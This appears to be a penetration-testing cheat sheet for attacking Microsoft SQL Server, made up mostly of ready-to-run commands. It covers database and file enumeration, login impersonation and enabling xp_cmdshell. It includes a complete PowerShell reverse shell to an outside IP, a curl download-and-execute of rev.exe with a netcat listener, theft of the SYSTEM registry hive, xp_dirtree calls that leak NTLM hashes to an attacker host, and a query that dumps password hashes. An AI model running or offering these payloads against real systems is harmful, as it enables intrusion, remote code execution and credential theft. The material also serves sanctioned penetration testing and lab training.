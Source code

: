 ### MSSQL Default Database
```
Master
Model
Msdb
Tempdb
```
### Queries to run 
```
# Get version
select @@version;
# Get user
select user_name();

#show database 
SELECT name FROM master..sysdatabases;

# Use database
USE master

#Get table names
SELECT * FROM <databaseName>.INFORMATION_SCHEMA.TABLES;
SELECT * FROM information_schema.tables

# Get table content
> SELECT * FROM <database_name>.dbo.<table_name>

# Read file content
SELECT * FROM OPENROWSET(BULK N'C:\users\administrator\desktop\root.txt', SINGLE_CLOB) AS Contents
```
### If current user does not have permission o view database
Backgroup  
>SQL (HAERO\discovery  guest@master)> use hrappdb

>ERROR: Line 1: The server principal "HAERO\discovery" is not able to access the database "hrappdb" under the current security context.

Solution
```
SELECT distinct b.name FROM sys.server_permissions a INNER JOIN sys.server_principals b ON a.grantor_principal_id = b.principal_id WHERE a.permission_name = 'IMPERSONATE'
name             
--------------   
hrappdb-reader

SQL (HAERO\discovery  guest@master)> EXECUTE AS LOGIN = 'hrappdb-reader'
SQL (hrappdb-reader  guest@master)> use hrappdb
```
### Enable command execution
```
enable_xp_cmdshell;
```
```
EXECUTE sp_configure 'show advanced options', 1;
RECONFIGURE;
EXECUTE sp_configure 'xp_cmdshell', 1;
RECONFIGURE;
```

### Mssql Connection and Get Reverse Sehll
```
impacket-mssqlclient user:pass@IP
impacket-mssqlclient user:pass@IP -windows-auth

EXEC xp_cmdshell 'powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient(''10.10.77.153'',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + ''PS '' + (pwd).Path + ''> '';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"'
```
Or 
```
EXECUTE xp_cmdshell 'curl http://192.168.45.202:8000/rev.exe -o C:\Users\Public\rev.exe';
EXECUTE xp_cmdshell 'c:\users\public\rev.exe';
rlwrap nc -nlvp 4444
```
### Sql authentication vs Windows authentication
>SQL Server Authentication:

>User Credentials: Requires a username and password specific to the SQL Server database.
Authentication Process: The SQL Server validates the username and password provided by the user.
Security Implications: Typically involves storing a username and password in the application's connection string. This method is more vulnerable to security threats if credentials are not adequately protected.
Example connection string using SQL Server Authentication:

>Windows Authentication:

>User Credentials: Relies on the user's Windows credentials (username and password) without requiring a separate SQL Server username and password.
Authentication Process: The SQL Server trusts the Windows authentication process, and the user is authenticated based on their Windows login credentials.
Security Implications: Generally considered more secure as it leverages the security features of the Windows operating system. Credentials are not typically stored in connection strings.

### MSSQL Upload and Download Files
```
proxychains4 -f /etc/proxychains4.conf crackmapexec(nxc) mssql 10.10.133.148 -u sql_svc -p Dolphin1 --get-file C:\\windows.old\\Windows\\System32\\SYSTEM /home/kali/Desktop/SYSTEM
proxychains4 -f /etc/proxychains4.conf crackmapexec(nxc) mssql 10.10.133.148 -u sql_svc -p Dolphin1 --put-file nc.exe C:\\Users\\Public\\nc.exe
```
### LLMNR/NBT-NS Poisoning through Mssql
![image](https://github.com/KiritoLoveAsuna/Penetration-Testing/assets/38044499/0d89e7ee-4d0a-420b-854e-2ab67c7f3a9a)
```
EXEC xp_dirtree '\\10.10.14.31\share', 1, 1
Exec master.dbo.xp_dirtree '\\<attacker_IP>\any\thing'
EXEC master..xp_subdirs '\\<attacker_IP>\anything\'
EXEC master..xp_fileexist '\\<attacker_IP>\anything\'
```
### Get Hashed Pwd
```
SELECT * FROM master.sys.syslogins;
```
